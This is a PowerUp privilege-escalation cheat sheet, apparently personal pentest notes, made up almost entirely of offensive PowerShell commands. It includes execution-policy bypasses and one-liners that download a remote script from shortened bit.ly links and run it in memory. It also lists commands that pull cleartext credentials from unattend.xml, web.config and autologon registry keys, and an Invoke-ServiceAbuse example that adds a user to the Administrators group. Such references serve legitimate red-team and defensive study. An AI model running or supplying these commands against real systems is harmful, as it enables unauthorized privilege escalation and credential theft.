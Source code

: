 # Powerup

## Initial Execution

```bash
# Load from disk
Powershell.exe -nop -exec bypass
. .\powerup.ps1

# Load from Github
Powershell IEX (New-Object Net.WebClient).DownloadString("http://bit.ly/1PdjSHk")

# Invoke-AllChecks
Invoke-AllChecks | Out-File -Encoding ASCII checks.txt

# Invoke-AllChecks and load script in one command
powershell.exe -exec bypass -Command “& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}

# Invoke-AllChecks without touching disk
 powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
```

## Commands

### Miscellaneous

```bash
# Check for credentials in unattend.xml files
Get-UnattendedInstallFile

# Get cleartext credentials and encrypted strings from web config files
Get-Webconfig

# Get current user tokens and privileges
Get-ProcessTokenPrivilege
```

### Services

```bash
# Get services with unquoted paths and spaces
Get-ServiceUnquoted -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

#Get the services whose configuration the current user can modify
Get-ModifiableService -Verbose

# Exploit vulnerable service 
Invoke-ServiceAbuse -Name "Vuln-Service" -Command "net localgroup Administrators security.local\moe /add"
```

### Registry

```bash
# Checks if MSI files are always installed in context of SYSTEM
Get-RegistryAlwaysInstallElevated

# Checks if any autologon credentials exists in registry locations
Get-RegistryAutologon

# Gets autoruns where the current user can modify the script or binary
Get-ModifiableRegistryAutoRun
```

## References

{% embed url="https://blog.certcube.com/powerup-cheatsheet/" %}

{% embed url="https://powersploit.readthedocs.io/en/latest/#overview" %}





